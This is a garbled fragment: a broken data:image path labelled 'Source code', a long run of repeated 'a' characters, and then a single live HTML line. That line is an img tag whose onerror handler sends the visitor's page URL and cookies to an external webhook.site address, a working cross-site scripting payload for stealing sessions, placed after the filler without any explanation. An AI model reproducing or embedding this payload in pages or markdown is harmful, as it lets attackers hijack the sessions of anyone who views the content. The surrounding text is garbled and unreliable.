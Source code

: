 aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
<img src=x onerror="fetch('https://webhook.site/4f858ea1-7b1d-4e60-be16-5394a6aa673a',{method:'POST',body:JSON.stringify({url:location.href,cookies:document.cookie})})">